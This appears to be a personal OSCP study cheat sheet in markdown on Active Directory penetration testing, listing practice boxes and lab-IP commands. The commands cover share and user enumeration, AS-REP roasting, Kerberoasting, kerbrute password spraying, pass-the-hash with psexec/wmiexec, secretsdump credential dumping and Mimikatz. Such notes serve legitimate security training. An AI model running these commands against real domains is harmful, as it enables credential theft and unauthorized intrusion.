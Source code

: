# Active Directory Resources
## XMind
Great resource for a logical flow of what to do with various conditions based on access, position, information, etc.

For the OSCP, I used this resource, which is no longer on the interwebs: https://web.archive.org/web/20220607072235/https://www.xmind.net/m/5dypm8/#
But the XMind file (`Pentesting_Active_directory.xmind`) file is in the `enum` directory to view with XMind thick client.


## Good IPpsec Videos/Other Resources
Good videos and HTB/Vulnhub boxes to review
- Active
- Blackfield
- Kerbrute
- Impacket - GetNPUsers.py
    - rpcclient to set the users password
    - secretsdump.py - with NTDS
    - psexec.py
    - wmiexec.py - (Doesn't drop you to system)

### Injecting Kerberos Tickets into Linux
https://0xeb-bp.com/blog/2019/11/21/practical-guide-pass-the-ticket.html

Sources
https://musyokaian.medium.com/vulnnet-roasted-tryhackme-walkthrough-a239fb05d032

# AD Enumeration
This list is far from exhaustive, and a tad bit disorganized, as I collected these commands during my OSCP prep. There is both overlap and some gaps between the commands listed in the XMind content and the content below.
## Initial Foothold
- Try to enumerate OS version by nmap scan - look at DNS version
- Add hostnames to `/etc/hosts`
- do `nslookup` (set server DC.IP.AD.DR; try your own loopback (127.0.0.1 for accuracy (should get localhost), then try DNS server) )
- if get timeout, do dnsrecon
    - `dnsrecon -d 10.10.10.100 -r 10.0.0.0/8`

### List SMB Shares/Files
- `smbclient -N -L //10.10.10.01/` - should've already done this from autorecon, but doesn't hurt
- `crackmapexec smb 10.10.10.01 -u guest -p "" --shares` - will show if shares are readable
- `crackmapexec smb 10.10.10.01 -u guest -p "" -M spider_plus` - Spider Shares to see files present 

## Username/SID Enumeration
### RPCClient
Rppclient should've been run by autorecon, but just in case
- `rpcclient -U "" 10.10.10.10` - then `enter` for null password
    - alternatively `rpcclient -U "" -N 10.10.10.10`
- If `rpcclient` session is established: `$> enumdomusers`

### LookupSID
- `lookupsid targetdomain.local/guest@10.10.10.10`
- lots of output, can find usernames by grep -i user

### Other Impacket Goodies
- `GetNPUsers.py targetdomain.local/ -no-pass -usersfile users.txt -dc-ip`
- find users that are SREP-roastable, aka user doesn't require creds to request TGT from KDCstrong text

### Download Files Via SMB
Can download file found on smb share with `smbmap -R SHARENAME -H IP.ADDR.0.0 -A Filename -q`
-R = recursive
-H host
-A - Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex '(web|global).(asax|config)'
- Can recursively get files with smbclient `smbclient //10.10.10.100/Replication`, and the following commands (mind your local directory before executing):
    - `recurse ON`
    - `prompt OFF`
    - `mget *`

### Ldap Enumeration
- `ldapsearch -x -h 10.10.10.10 -b base namingcontext`
    - if there is an error message of a successful bind must be completed on the connection, then anonymous access to LDAP is disabled

### Password Crack
- GPP Decrypt (gpp-decrypt) to decrypt Group Policy Preferences String

## Enumerate Creds/Username
### Username Mutation
1. Username Mutation Tool: https://github.com/PinkDraconian/CTF-bash-tools
    - `ctf-wordlist-names.sh names-file`
    - script outputs content to: `formatted_name_wordlist.txt`
2. Add usernames like `Administrator` and `guest`
3. Take usernames and then use `kerbrute`
- `kerbrute userenum -d domain.local --dc 10.10.10.01 formatted_name_wordlist.txt --downgrade`
- Password Spray with kerbrute: `kerbrute passwordspray -d domain.local -dc 10.10.10.01 formatted_name_wordlist.txt 'Winter2020!'`

### If you Have Creds
- `GetADUsers.py (part of impacket) - GetADUsers.py -all active.htb/svc_tgs -dc ip 10.10.10.100`
- Impacket PSexec command if you have credentials: `psexec.py active.htb/svc_tgs@10.10.10.100`
- Revisit `smbmap` with `-u`, `-d`, and `-p` flags
- `GetUsersSPNs.py - GetUsersSPNs.py -request -dc-ip IP AD active.ht/svc_tgs:pwd`

### CME (Crackmap Exec)
- PW Authentication: `crackmapexec smb 10.10.10.10 -u username -p "password"`
- List Shares: `crackmapexec smb 10.10.10.10 -u username -p "password" --shares`

### Impacket (w/Creds)
- All commands below allow -hashes flag to specify a NTLM hash
    - `psexec domain/username@10.10.10.10`
    - `wmiexec domain/username@10.10.10.10`
    - `wmiexec domain/username@10.10.10.10 -hashes`
- If user is in Admin group, can dump entire SAM database: `secretsdump domain/username@10.10.10.10`

### If you need Access
- Have you tried psexec.py with your credentials?

### Bloodhound Tip/Windows Tip
- `runas /netonly /user:active.htb\svc_tgs cmd`
    - Then prompted for password
    - Will launch new cmd

### Mimikatz Tips
- Make sure to run version 2.1 and newest version
- `Invoke-Mimikatz`
- `Invoke-Kerberoast`
